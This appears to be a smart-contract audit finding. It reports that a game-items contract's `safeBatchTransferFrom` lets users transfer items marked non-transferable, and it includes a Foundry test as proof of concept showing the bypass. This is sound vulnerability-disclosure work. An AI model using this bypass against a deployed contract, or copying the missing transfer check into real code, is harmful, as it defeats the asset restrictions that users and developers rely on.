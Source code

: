## Impact

Users can transfer non-transferable game item with `safeBatchTransferFrom`.

## Proof of Concept

1. Add this test to `test/GameItems.t.sol` and run it with `forge test --match-contract GameItems --match-test testSafeBatchTransferFromCanTransferNonTransferableGameItem`.

```solidity
  function testSafeBatchTransferFromCanTransferNonTransferableGameItem()
      public
  {
      address from = makeAddr("from");
      address to = makeAddr("to");

      uint256 tokenId = 1;
      uint256 amount = 1;

      // create new non-transferable game item
      _gameItemsContract.createGameItem(
          "Non Transferable Game Item",
          "https://ipfs.io/ipfs/",
          true,
          false,
          4,
          1 * 10 ** 18,
          1
      );

      _fundUserWith4kNeuronByTreasury(from);

      // mint 1 token to "from" address
      vm.startPrank(from);
      _gameItemsContract.mint(1, amount);

      // revert if we use saveTransferFrom
      vm.expectRevert();
      _gameItemsContract.safeTransferFrom(from, to, tokenId, amount, "");

      uint256[] memory tokenIds = new uint256[](1);
      uint256[] memory amounts = new uint256[](1);

      tokenIds[0] = 1;
      amounts[0] = 1;

      // but safeBatchTransferFrom will successfully transfer game item that should not be transferable
      _gameItemsContract.safeBatchTransferFrom(
          from,
          to,
          tokenIds,
          amounts,
          ""
      );

      vm.stopPrank();
  }
```
